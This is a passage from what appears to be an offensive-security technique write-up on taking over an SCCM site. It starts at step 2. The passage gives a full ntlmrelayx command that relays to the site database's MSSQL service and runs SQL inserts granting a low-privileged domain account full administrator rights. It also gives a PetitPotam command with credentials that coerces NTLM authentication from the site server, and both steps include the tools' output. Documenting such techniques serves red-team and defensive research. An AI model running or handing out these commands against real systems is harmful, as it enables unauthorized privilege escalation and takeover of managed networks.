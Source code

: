 2. On the attacker relay server, start `ntlmrelayx`, targeting the IP address of the site database server and the MSSQL service using the SQL statements assembled in the previous step:

    ```
    # impacket-ntlmrelayx -smb2support -ts -ip <NTLMRELAYX_LISTENER_IP> -t mssql://<SITE_DATABASE_IP> -q "USE CM_ps1; INSERT INTO RBAC_Admins (AdminSID,LogonName,IsGroup,IsDeleted,CreatedBy,CreatedDate,ModifiedBy,ModifiedDate,SourceSite) VALUES (0x010500000000000515000000D75D21256B6364FD4D95C88158040000,'MAYYHEM\lowpriv',0,0,'','','','','ps1');INSERT INTO RBAC_ExtendedPermissions (AdminID,RoleID,ScopeID,ScopeTypeID) VALUES ((SELECT AdminID FROM RBAC_Admins WHERE LogonName = 'MAYYHEM\lowpriv'),'SMS0001R','SMS00ALL','29');INSERT INTO RBAC_ExtendedPermissions (AdminID,RoleID,ScopeID,ScopeTypeID) VALUES ((SELECT AdminID FROM RBAC_Admins WHERE LogonName = 'MAYYHEM\lowpriv'),'SMS0001R','SMS00001','1'); INSERT INTO RBAC_ExtendedPermissions (AdminID,RoleID,ScopeID,ScopeTypeID) VALUES ((SELECT AdminID FROM RBAC_Admins WHERE LogonName = 'MAYYHEM\lowpriv'),'SMS0001R','SMS00004','1');"

    Impacket v0.11.0 - Copyright 2023 Fortra

    [2024-02-22 16:37:11] [*] Protocol Client MSSQL loaded..
    [2024-02-22 16:37:11] [*] Protocol Client LDAPS loaded..
    [2024-02-22 16:37:11] [*] Protocol Client LDAP loaded..
    [2024-02-22 16:37:11] [*] Protocol Client RPC loaded..
    [2024-02-22 16:37:11] [*] Protocol Client HTTPS loaded..
    [2024-02-22 16:37:11] [*] Protocol Client HTTP loaded..
    [2024-02-22 16:37:11] [*] Protocol Client IMAP loaded..
    [2024-02-22 16:37:11] [*] Protocol Client IMAPS loaded..
    [2024-02-22 16:37:11] [*] Protocol Client SMTP loaded..
    [2024-02-22 16:37:11] [*] Protocol Client SMB loaded..
    [2024-02-22 16:37:11] [*] Protocol Client DCSYNC loaded..
    [2024-02-22 16:37:11] [*] Running in relay mode to single host
    [2024-02-22 16:37:11] [*] Setting up SMB Server
    [2024-02-22 16:37:11] [*] Setting up HTTP Server on port 80
    [2024-02-22 16:37:11] [*] Setting up WCF Server
    [2024-02-22 16:37:11] [*] Setting up RAW Server on port 6666

    [2024-02-22 16:37:11] [*] Servers started, waiting for connections
    ```

3. From the attacker host, coerce NTLM authentication from the site server via SMB, targeting the relay server's IP address:

    ```
    # python3 PetitPotam.py -d MAYYHEM.LOCAL -u lowpriv -p P@ssw0rd <NTLMRELAYX_LISTENER_IP> <SITE_SERVER_IP>              

    Trying pipe lsarpc
    [-] Connecting to ncacn_np:192.168.57.50[\PIPE\lsarpc]
    [+] Connected!
    [+] Binding to c681d488-d850-11d0-8c52-00c04fd90f7e
    [+] Successfully bound!
    [-] Sending EfsRpcOpenFileRaw!
    [-] Got RPC_ACCESS_DENIED!! EfsRpcOpenFileRaw is probably PATCHED!
    [+] OK! Using unpatched function!
    [-] Sending EfsRpcEncryptFileSrv!
    [+] Got expected ERROR_BAD_NETPATH exception!!
    [+] Attack worked!
    ```

